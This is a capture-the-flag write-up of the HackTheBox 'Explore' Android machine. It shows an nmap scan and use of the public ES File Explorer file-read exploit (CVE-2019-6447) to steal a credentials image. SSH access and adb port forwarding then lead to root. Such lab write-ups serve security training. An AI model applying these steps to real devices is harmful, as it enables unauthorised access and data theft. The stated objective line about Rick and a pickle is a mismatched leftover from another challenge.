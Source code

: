 ```yaml
---
title: "HackTheBox: Explore"
date: 2025-03-12 00:00:00 +/-TTTT
categories: [Writeups, HackTheBox, easy]
tags: [htb, easy]     # TAG names should always be lowercase
---
```


>**Title**: Explore
>
>**Platform**: HackTheBox
>
>**Difficulty**: Easy
>
>**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

<img src= "https://labs.hackthebox.com/storage/avatars/2c3df5ec98bea78159400b5b4f6474ab.png" width="250" height="250" alt=logo.png> <br>

[Challenge Link](https://www.hackthebox.com/machines/explore)

 > [!NOTE]
 This writeup does not divulge the flags. 

## Enumeration

We start off with our favorite tool….`nmap` to identify open ports and services.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ sudo nmap -sS 10.129.56.63 
[sudo] password for kali: 
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-09-14 16:43 EDT
Nmap scan report for 10.129.56.63
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE    SERVICE
2222/tcp open     EtherNetIP-1
5555/tcp filtered freeciv

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
```

The scan reveals two open ports: `2222` and `5555`. Let’s perform a more detailed scan using `nmap` with service detection and default scripts.

```bash
──(kali㉿kali)-[~/HTB/Explore]
└─$ nmap -sT -sV -sC 10.129.56.63 -p-
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-09-14 16:50 EDT
Nmap scan report for 10.129.56.63
Host is up (0.035s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).'
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

The scan identifies an `SSH` service on port `2222`, `ES File Explorer` running on port `42135`, and `Bukkit JSONAPI` on port `59777`.

Simply searching for the `freeciv` service with the word exploit tacked on returns quite a few exploits, hmmm interesting…

## ES File Explorer Exploit

Going back to our `nmap` result, let’s search for ES File explorer exploit and we see the first hit is an arbitrary file read.

```
ES File Explorer 4.1.9.7.4 - Arbitrary File Read - https://www.exploit-db.com/exploits/50070
```


>!CAUTION: 💡 Always remember to read the exploit code before you use it! 


```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py getDeviceInfo 10.129.56.63

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

We can use a lot of different functions to list files/pictures/videos etc. Going through that we list pictures and find an interesting JPEG.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py listPics 10.129.56.63 

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

Let’s use the `getFile` function to get the `creds` file and reveal the contents.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py getFile 10.129.56.63 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

Et voila, we see a set of credentials we can use for the SSH server. Sticky notes, am I right?

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1741792262251/caef0233-bc05-4b89-af50-74028437b391.png)

## SSH Access (User)

Directly ssh’ing into the box gave me an error saying “**No matching host key type found. Their offer: ssh-rsa**”. A quick search helped me fix that problem and we can connect.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ ssh -oHostKeyAlgorithms=+ssh-rsa -p 2222 kristi@10.129.56.63
The authenticity of host '[10.129.56.63]:2222 ([10.129.56.63]:2222)' can't be established.
RSA key fingerprint is SHA256:3mNL574rJyHCOGm1e7Upx4NHXMg/YnJJzq+jXhdQQxI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.56.63]:2222' (RSA) to the list of known hosts.
Password authentication
(kristi@10.129.56.63) Password: 
:/ $ whoami
u0_a76
```

Navigate to the `sdcard` directory to find `user.txt` or run the find command and grab that flag.

## Privilege Escalation

Let’s look at the open ports on the machine.

```jsx
:/ $ ss -ntlp
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:40389                    *:*                  
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=16841,fd=74),("sh",pid=15893,fd=74),("droid.sshserver",pid=3766,fd=74))
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      10           *:42135                    *:*                  
LISTEN      0      50       [::ffff:10.129.56.63]:38909                    *:*
```

We identified at the start, the port `5555` is a debugging port (`adb`) and doesn’t allow external connections but now we have local access and we can use `ssh` port forwarding to access this port and service.

We reconnect using `ssh -L 5555:`[`localhost:5555`](http://localhost:5555)

From the attacker machine, let’s connect using `adb` and let’s drop into the `adb` shell

```bash
┌──(kali㉿kali)-[~]
└─$ adb -s localhost:5555 shell
x86_64:/ $ whoami                                                                      
shell
x86_64:/ $ su
:/ # whoami
root
```

```bash
:/ # find / -name root.txt 2>/dev/null
/data/root.txt
1|:/ # cat /data/root.txt
f04fc<ROOTFLAGHERE>
```

Done!